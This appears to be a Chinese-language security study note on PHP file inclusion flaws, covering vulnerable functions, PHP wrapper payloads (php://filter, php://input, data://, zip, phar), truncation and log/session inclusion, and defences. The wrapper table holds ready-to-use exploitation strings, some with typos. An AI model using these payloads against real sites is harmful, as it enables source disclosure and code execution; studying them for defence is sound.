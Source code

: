 # 文件包含漏洞
### 文件包含函数
* include
* include_once
* require
* require_once
* highlight_file、show_source、readfile、file_get_contents、fopen、file
### 文件包含漏洞分类
* 本地文件包含
* 远程文件包含
* allow_url_fopen:为on时，能读取远程文件，例如:file_get_contents()就能读取远程文件。
* allow_url_include: 为on时，就可以使用include和require等方式包含远程文件

## 文件包含漏洞的利用方式-伪协议

**测试PHP版本>=5.2**

| 协议              | allow_url_fopen | allow_url_include | 用法                                                         |
| ----------------- | --------------- | ----------------- | ------------------------------------------------------------ |
| file://           | off/on          | off/on            | ?file=file://D:/phpcode.text                                 |
| php://filter      | off/on          | off/on            | ?file=php://fileter/read=convert.base64-encode/resource=./index.php |
| php://input       | off/on          | **on**            | ?file=php://input <?php phpinfo()?>                          |
| zip://            | off/on          | off/on            | ?file=zip://D:/file.zip%23phpcode.text                       |
| compress.bzip2:// | off/on          | off/on            | ?file=conpress.bzip2://D://file.bz2\|?file=compress.bzip2://./file.bz2 |
| compress.zlib://  | off/on          | off/on            | ?file=conpress.zlib://D://file.gz                            |
| data://           | **on**          | **on**            | ?file=data://text/plain,<? php phpinfo()?>\|?file=data://text/plain;base64,PD9waHagcGhwaW5mbygpPz4=\|?file=data:text/plain,<? php phpinfo()?>\|?file=data:text/plain;base64,PD9waHagcGhwaW5mbygpPz4= |

php://filter是一种原封装器，设计用于数据流打开时的筛选过滤应用

data://同样类似与php://input，可以让用户来控制输入流

php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行

phar://xxx.png/shell.php解压缩包的一个函数，不管后缀是什么，都会当作压缩包来解压

## 文件包含漏洞的利用方式-其他

* 00截断
* 长度截断
* 包含日志文件
  * Windows：256
  * Linux：4096
* 包含session

### 文件包含的防御

* PHP中使用open_basedir配置限制访问在指定的区域
* 过滤.(点)/(斜杠)\\(反斜杠)
* 禁止服务器远程文件包含
* 尽量不要使用动态包含，可以在需要包含的页面固定写好